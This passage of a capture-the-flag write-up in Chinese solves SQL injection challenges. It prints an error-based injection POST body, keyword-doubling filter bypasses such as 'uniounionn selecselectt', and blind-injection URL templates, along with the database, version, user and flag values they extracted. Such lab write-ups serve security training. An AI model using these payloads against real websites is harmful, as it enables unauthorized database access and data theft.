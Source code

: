 			admin_name=AdMiNhEhE&admin_passwd=1" and (select 1 from (select count(*), concat(floor(rand(0)*2),0x23,(SELECT flag1 FROM flag1  limit 1))x from information_schema.tables group by x )a) and "1" = "1&submit=GO+GO+GO
			ed6b28e684817d9efcaf802979e57aea

			flag{ed6b28e684817d9efcaf802979e57aea}

38. 多次 150
	>http://120.24.86.145:9004
	>本题有2个flag
	>flag格式 flag{}

	解答:

		sql数字型注入
		http://120.24.86.145:9004/1ndex.php?id=1'%23 		//成功
		
		异或注入探测过滤的关键字
		http://120.24.86.145:9004/1ndex.php?id=1'^(0)^ '	//成功
		http://120.24.86.145:9004/1ndex.php?id=1'^(1)^ '	//error
		http://120.24.86.145:9004/1ndex.php?id=1'^(length('union'))^ '//成功
		//过滤union，select,and,order,
		//没有过滤limit,from,where,ord,mid
	
		尝试绕过过滤，既然union这些都是被过滤掉了
		那构造ununionion 一旦union被过滤，删除了，那剩下来的还是union
		http://120.24.86.145:9004/1ndex.php?id=1' anandd 1=2 uniounionn selecselectt 1,2%23
		http://120.24.86.145:9004/1ndex.php?id=1' anandd 1=2%23
		uniounionn selecselectt
		http://120.24.86.145:9004/1ndex.php?id=1' anandd 1=2 uniounionn selecselectt 1,database()%23
		//web1002-1
		http://120.24.86.145:9004/1ndex.php?id=1' anandd 1=2 uniounionn selecselectt 1,version()%23
		5.5.34-log
		http://120.24.86.145:9004/1ndex.php?id=1' anandd 1=2 uniounionn selecselectt 1,user()%23
		web1002-1@localhost
		http://120.24.86.145:9004/1ndex.php?id=1' anandd 1=2 uniounionn selecselectt 1,selecselectt TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'web1002-1'%23
		//无返回值，怀疑无information_schema数据库
		
		逐字猜解法，测试表名、列名，字段值
	
	
		http://120.24.86.145:9004/1ndex.php?id=1' anandd 1=2 uniounionn selecselectt 1,(selecselectt flag1 from flag1)%23
		usOwycTju+FTUUzXosjr
	
		http://120.24.86.145:9004/1ndex.php?id=1' anandd 1=2 uniounionn selecselectt 1,(selecselectt address from flag1)%23
		./Once_More.php
		注入测试，有回显，过滤union,select，sleep,substr
		%0b,%10等换行符可以绕过
		payload:
			1. url = "http://120.24.86.145:9004/Once_More.php?id=1'and  (select locate(binary'" + str(i) + "',(select table_name from information_schema.tables where table_schema=database() limit 0,1)," + str(j) + "))=" + str(j) + "%23"
			//table_name
			2. url = "http://120.24.86.145:9004/Once_More.php?id=1'and (select locate(binary'" + str(i) + "',(select column_name from information_schema.columns where table_schema=database() limit 0,1)," + str(j) + "))=" + str(j) + "%23"
			//column_name
			3. url = "http://120.24.86.145:9004/Once_More.php?id=1'and (select locate(binary'"+str(i)+"',(select flag2 from flag2),"+str(j)+"))="+str(j)+"%23"
			//flag
			4. url = "http://120.24.86.145:9004/Once_More.php?id=1'and (select locate(binary'"+str(i)+"',(select user()),"+str(j)+"))="+str(j)+"%23"
			//user
	
